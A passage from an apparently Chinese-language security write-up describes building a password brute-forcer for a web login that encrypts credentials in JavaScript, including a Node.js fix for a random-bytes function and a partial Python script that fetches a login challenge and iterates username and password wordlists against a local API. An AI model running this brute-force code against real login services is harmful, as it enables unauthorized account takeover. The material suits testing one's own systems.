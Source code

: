 [![](assets/1711093164-db848d72508633383e103f34f2ee0576.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240320141756-97cca1a6-e681-1.png)

这就是一个生成随机数的函数，但是 window 是浏览器的特性，nodejs 没有这个东西，将这段代码改成如下即可

```plain
function cryptoRandomBytes(length) {
  let array = new Uint8Array(length);
  return crypto.getRandomValues(array)
}
```

-   bug2：js 网络请求错误  
    exchange\_key 不变，但是 challenge 具有实时性，challenge 每一次都不一样，需要从链接 `api/source/${curItem.id}/start?login_name=` 获取  
    但是我无法解决使用 js 获取该网址返回的 json 数据包中的 challenge 字段，一直报错，没办法，我 js 基础太差了，这里使用 python 的 request 模块请求获得 challenge 的值

### python 完整代码

使用 python 获取 challenge 数据，然后将文件中的密码加密，直接使用 python 进行爆破

```plain
import json

import execjs
import requests

successCount = 0


def mzDes(s,para):
    url = 'http://127.0.0.1/api/source/AlbdUKmU/start?login_name=admin'  # 替换为你要获取内容的网页 URL
    response = requests.get(url)
    content = str(response.json()['data']['challenge'])
    despara = execjs.compile(s,cwd=r"D:\environment\NodeJs\node_modules").call("encryptPassword","Phf6vzG7snJUhy7p-B6splD45vfhp0erZJpMhBni9mk",content,para)
    return despara

with open('jwes.js','r', encoding='utf-8') as jsFile:

        a = jsFile.read()
        with open('./users','r', encoding='utf-8') as users:   #des username
            user = users.readlines()
        for u in user:
            with open('passwd.txt','r', encoding='utf-8') as pwds:   #des password
                    uname = u.strip()
                    print(uname)
                    # desUsername = mzDes(s,uname)
```